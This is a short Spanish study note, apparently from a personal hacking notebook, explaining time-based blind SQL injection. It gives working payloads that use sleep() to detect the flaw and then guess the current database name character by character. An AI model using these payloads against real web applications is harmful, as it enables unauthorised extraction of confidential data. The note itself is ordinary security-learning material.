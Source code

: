 ----------------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #sql  #exploiting 
----------
# Definición

> La **Inyección SQL basada en tiempo (Time-based SQL Injection)** es un tipo de [[SQL Injection]] en aplicaciones web donde los atacantes introducen código malicioso para retrasar respuestas y deducir información de la base de datos. Aprovechan pausas en las respuestas para inferir si las consultas son verdaderas o falsas, permitiéndoles extraer datos confidenciales.

Para proceder con este tipo de inyección, procederemos de una forma bastante similar que con [[Boolean-based Blind SQL Injection]], solo que ahora en vez de comprobar con el estado de la respuesta, lo hacemos con pausas en la web, por ejemplo podemos insertar la siguiente query para comprobar si realmente espera lo solicitado, y si es así, sabremos que es vulnerable:

```
?id=1 and sleep(5)
```

Para conseguir información relevante, podemos realizar la siguiente sentencia para conseguir el nombre de la **base de datos actual**, e ir probando con los distintos valores hasta que se realice la espera solicitada:

```
#Probando primer carácter
id = 1 and if(ascii(substr(database(),1,1))=97,sleep(5),1); #No espera 5 segs
id = 1 and if(ascii(substr(database(),1,1))=98,sleep(5),1); #No espera 5 segs
id = 1 and if(ascii(substr(database(),1,1))=99,sleep(5),1); #Espera 5 segs => El primer carácter es una c

#Probando segundo carácter
id = 1 and if(ascii(substr(database(),2,1))=97,sleep(5),1); #No espera 5 segs
id = 1 and if(ascii(substr(database(),2,1))=98,sleep(5),1); #No espera 5 segs
.....
```

Utilizamos dicho principio para programar el script [[sqli.py]].